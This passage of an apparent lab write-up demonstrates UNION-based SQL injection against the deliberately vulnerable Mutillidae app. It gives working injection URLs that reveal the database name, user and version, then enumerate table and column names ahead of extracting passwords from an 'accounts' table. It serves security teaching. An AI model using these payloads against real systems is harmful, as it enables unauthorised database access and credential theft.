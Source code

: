 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
## OUTPUT:
![{AB6E05B4-B7B1-4981-9FC6-90692201F982}](https://github.com/user-attachments/assets/6022edba-cb8d-4490-af75-19093652b06c)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
![{0002973A-5AF7-4C32-B994-A81624440FB8}](https://github.com/user-attachments/assets/faee3c63-caff-4cb9-8736-086ac75ee443)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
![{033A74C8-9DD5-4471-97FA-77A47AC2EE56}](https://github.com/user-attachments/assets/85e95ff5-3ce8-41a0-9e16-e68bfaddb18a)
![{AD9A7552-110E-425A-9758-A996C658F3C8}](https://github.com/user-attachments/assets/6632160b-5cb8-4ad9-95bc-cabfd22c6438)


The url once executed will  retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

The column names of the accounts is displayed below for the following url:
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

## OUTPUT:
![{CDEA8F71-7DC6-4FDF-833C-B665149EF259}](https://github.com/user-attachments/assets/f2ee55f2-9b73-4ec7-8afb-0897503a31bc)
